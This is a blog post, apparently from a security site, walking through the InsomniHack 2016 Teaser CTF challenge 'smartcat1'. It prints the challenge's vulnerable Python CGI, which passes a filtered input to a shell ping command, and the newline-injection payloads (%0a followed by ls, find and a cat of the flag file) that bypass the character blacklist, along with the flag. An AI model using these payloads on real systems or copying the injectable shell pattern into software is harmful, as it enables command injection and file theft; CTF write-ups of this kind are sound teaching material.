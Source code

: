 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat1 Writeup"
date:   2024-01-18 14:00:10
author: Dhruv Ambaliya
description: 'InsomniHack Teaser CTF 2016, smartcat1 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat1 CTF](/img/blog/insomnihack/smartcat1.png)

## InsomniHack Smartcat1

Entering nothing or a <code>'</code> renders the error: <code>Error running ping -c 1 foo</code>. Enumeration indicated the following characters were filtered <code>$;&amp;|({`\t</code> Note, that included whitespace filtering.  

I loaded up burp and went through the ASCII table for other ways of escaping the command. It was possible to use LF <code>%0a</code> to escape the existing command and enter another such as: <code>dest=8.8.8.8%0als</code>.

Viewing the source code of <code>index.cgi</code> confirmed the character filtering.

{% highlight python %}
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4]
print "Content-type: text/html"
print

print """
&lt;html&gt;

&lt;head&gt;&lt;title&gt;Can I haz Smart Cat ???&lt;/title&gt;&lt;/head&gt;

&lt;body&gt;

  &lt;h3&gt; Smart Cat debugging interface &lt;/h3&gt;
"""

blacklist = " $;&amp;|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
    if badchar in dest:
        results = "Bad character %s in dest" % badchar
        break

if "%n" in dest:
    results = "Segmentation fault"

if not results:
    try:
        results = subprocess.check_output("ping -c 1 "+dest, shell=True)
    except:
        results = "Error running " + "ping -c 1 "+dest

print """

  &lt;form method="post" action="index.cgi"&gt;
    &lt;p&gt;Ping destination: &lt;input type="text" name="dest"/&gt;&lt;/p&gt;
  &lt;/form&gt;

  &lt;p&gt;Ping results:&lt;/p&gt;&lt;br/&gt;
  &lt;pre&gt;%s&lt;/pre&gt;

  &lt;img src="../img/cat.jpg"/&gt;

&lt;/body&gt;

&lt;/html&gt;
""" % cgi.escape(results)
{% endhighlight %}

## Flag

Entering <code>dest=%0afind</code> listed the current directory, revealing the path of the flag.

{% highlight bash %}
dest=8.8.8.8%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
{% endhighlight %}

Flag contents:

{% highlight bash %}
INS{warm_kitty_smelly_kitty_flush_flush_flush}
{% endhighlight %}

Thanks for the CTF :)

